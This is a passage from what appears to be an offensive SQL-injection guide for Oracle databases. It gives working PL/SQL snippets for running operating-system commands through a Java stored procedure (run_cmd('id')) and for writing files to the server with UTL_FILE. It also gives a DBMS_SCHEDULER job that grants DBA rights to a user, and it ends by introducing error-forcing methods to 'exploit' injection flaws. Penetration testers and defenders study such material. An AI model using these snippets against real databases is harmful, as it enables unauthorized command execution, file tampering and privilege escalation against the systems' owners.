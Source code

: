    ```sql
            return e.toString();
         }
      }
   };
   /
   
   CREATE OR REPLACE FUNCTION run_cmd(p_cmd IN VARCHAR2) RETURN VARCHAR2
   AS LANGUAGE JAVA
   NAME 'cmd.run(java.lang.String) return java.lang.String';
   /
   
   SELECT run_cmd('id') FROM dual;
   ```

   This uses Java stored procedures to execute system commands.

2. **UTL_FILE Package for File Access**

   ```sql
   DECLARE
      l_file UTL_FILE.FILE_TYPE;
      l_text VARCHAR2(32767);
   BEGIN
      l_file := UTL_FILE.FOPEN('DIRECTORY_NAME', 'output.txt', 'W');
      UTL_FILE.PUT_LINE(l_file, 'Data from UTL_FILE');
      UTL_FILE.FCLOSE(l_file);
   END;
   ```

   This technique uses the `UTL_FILE` package to write files to the server.

3. **DBMS_SCHEDULER for Job Execution**

   ```sql
   BEGIN
      DBMS_SCHEDULER.create_job(
         job_name => 'job1',
         job_type => 'PLSQL_BLOCK',
         job_action => 'BEGIN EXECUTE IMMEDIATE ''GRANT DBA TO SCOTT''; END;',
         start_date => SYSTIMESTAMP,
         repeat_interval => NULL,
         end_date => NULL,
         enabled => TRUE
      );
   END;
   ```

   This uses `DBMS_SCHEDULER` to execute jobs that can change database permissions.

## Advanced Methods to Forcefully Generate Errors on Various DBMS

Here are some advanced techniques tailored to specific DBMS to force errors and gather valuable information. By using these advanced methods to force errors on different DBMS, you can gather detailed error messages that reveal valuable information about the database, helping you identify and exploit SQL injection vulnerabilities more effectively.
